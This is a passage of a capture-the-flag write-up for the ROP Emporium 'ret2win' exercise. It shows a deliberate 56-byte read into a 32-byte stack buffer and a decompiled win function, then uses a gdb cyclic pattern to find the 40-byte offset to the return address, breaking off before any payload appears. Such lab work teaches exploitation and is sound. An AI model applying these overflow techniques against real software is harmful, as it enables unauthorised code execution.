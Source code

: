 The binary was truthful, as our input is allocated a buffer of 32 bytes while the `read` function tries to read 0x38 bytes (56 in decimal). Obviously, this will result in a buffer overflow. 

Looking at the function list in Ghidra, we notice the `ret2win` function

```cpp
void ret2win(void)

{
    puts("Well done! Here\'s your flag:");
    system("/bin/cat flag.txt");
    return;
}
```

How convenient! If we can trick the binary into calling this function, we will get the flag. Let's see how many bytes we need to reach the saved return address. For this, we can use `pwngdb`

```
$ gdb ret2win

pwngdb> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

pwngdb>r

Starting program: /home/ret2win
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
Thank you!
```

Looking at the registers, we see that RSP has been overwritten with `faaaaaaa`. This means that we need 40 bytes of filler to break the stack
![ESP register](/assets/Image10.png)
